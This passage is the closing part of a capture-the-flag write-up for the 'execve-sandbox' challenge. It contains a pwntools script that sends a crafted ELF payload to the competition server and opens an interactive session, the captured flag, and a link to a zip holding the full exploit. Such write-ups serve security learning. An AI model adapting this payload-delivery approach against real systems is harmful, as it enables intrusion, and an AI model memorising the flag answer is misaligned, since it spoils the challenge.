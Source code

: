 Will give us the final binary to send with:

```python
#!/usr/bin/env python2

from pwn import *

assert len(sys.argv) > 1

with open(sys.argv[1], 'rb') as f:
    payload = f.read()

p = remote('execve-sandbox.ctfcompetition.com', 1337)
p.recvuntil('[*] waiting for an ELF binary...')
p.send(payload + 'deadbeef')

p.interactive()
```

Will give us our beloved flag!

**CTF{Time_to_read_that_underrated_Large_Memory_Management_Vulnerabilities_paper}**

In the following link to a zip file you can find the execve-sandbox.c source code, the execve-sandbox binary, the libLIEF.so binary needed to run execve-sandbox, the full exploit in the flagger.asm file and the run.py script.

Attachment: [https://drive.google.com/file/d/1RbE5jM5aG8phRHA7s6--fbF4chsGMBpg/view?usp=sharing](https://drive.google.com/file/d/1RbE5jM5aG8phRHA7s6--fbF4chsGMBpg/view?usp=sharing)

